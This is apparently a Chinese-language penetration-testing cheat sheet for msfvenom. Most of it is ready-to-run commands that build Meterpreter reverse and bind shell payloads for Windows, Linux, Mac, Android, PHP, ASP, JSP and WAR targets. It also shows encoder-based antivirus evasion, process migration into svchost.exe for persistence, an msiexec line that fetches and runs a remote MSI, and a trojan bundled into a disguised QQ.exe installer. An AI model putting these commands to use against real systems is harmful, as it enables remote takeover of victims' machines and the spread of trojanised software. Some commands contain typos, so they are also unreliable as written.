 # msfvenom 
[MSF生成Payload/反弹shell 方式总结](https://mp.weixin.qq.com/s/pIakrui_9vsQdun7aopUYw)

如果tcp不行换协议
reverse_tcp
reverse_http

常用参数
- 比如想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项,可以使用
msfvenom -p windows/meterpreter/reverse_tcp --list-options
- msfvenom --list payloads可查看所有payloads
- msfvenom --list encoders可查看所有编码器
  - 评级最高的两个encoder为 cmd/powershell_base64 和 x86/shikata_ga_nai,其中 x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器
类似可用 msfvenom--list 命令查看的还有payloads,encoders,nops,platforms,archs,
encrypt,formats

## filter payloads list
```bash
# filter php
msfvenom -l payloads | grep "php" | awk '{print $1}'
```


## payload的可持续化
- 自动迁移到进程
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe
```

- 生成的shell程序执行后会启动两个进程shell.exe和svchost.exe,关闭其中一个不会影响会话状态.
在上面的生成payload参数中:
- (1) PrependMigrate＝true PrependMigrateProc＝svchost．exe 使这个程序默认会迁移到
svchost.exe进程,自己测试的时候不建议到这个进程而是其他的持久进程.
- (2)使用-p指定使用的攻击载荷模块,使用-e指定使用x86／shikata_ga_nai编码器,使用-f选项告
诉MSF编码器输出格式为exe,-o选项指定输出的文件名为payload.exe,保存在根自录下.

## 正向反向payload区别, reverse_tcp和bind_tcp区别：
目标机器可以上网，那就使用reverse_tcp，让目标机器出网连接我们的服务器
无法外网的，使用正向连接，反向出不来 windows/x64/meterpreter/bind_tcp

注意，获得meterpreter的顺序为：先在win机器上执行我们的exe，然后再在msf上执行`exploit`。与`reverse_tcp`的顺序刚好相反。

```shell
[reverse_tcp]
attacker -> [contact me at the port 4444] -> victim

after the payload is executed
attacker <-> [port 4444] <-> victim

[bind_tcp]
attacker -> [open the way for me in the port 4444] -> victim

after execution
attacker <-> [port 4444] <-> victim
```


## 各平台的 payload/bin/exe/反弹shell
https://micro8.gitbook.io/micro8/contents-1/1-10/10msfvenom-chang-yong-sheng-cheng-payload-ming-ling

```bash
# Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=1234 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1234 -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp LPORT=1234 -f exe >bind.exe
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=$ip LPORT=1234  -f raw -o payload.ps1
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.2.157 -e x86/shikata_ga_nai -b "\x00" -f py 
# 默认的stageless payload只会包含stageless，所以如果想将stdapi和priv两个组建给包含进去的华我们可以用extensions命令：
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe

msfvenom -p windows/exec CMD='calc.exe' -f msi > calc.msi # msiexec /q /i http://tools.imortal.icu/calc.msi

# Linux
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -a x86 --platform Linux -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=1234 -a x86 --platform Linux -f elf > shell.elf

# Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho>shell.macho

# Android
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 R > test.apk
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.80.103 LPORT=1123 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php' | tr-d '\n'>shell.php && pbpaste >> shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YourP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f raw > shell.jsp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=1234 -f war > shell.war

# shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

# 制作捆绑木马 qq.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=1234 -x QQ_PC.exe -o QQ.exe
```
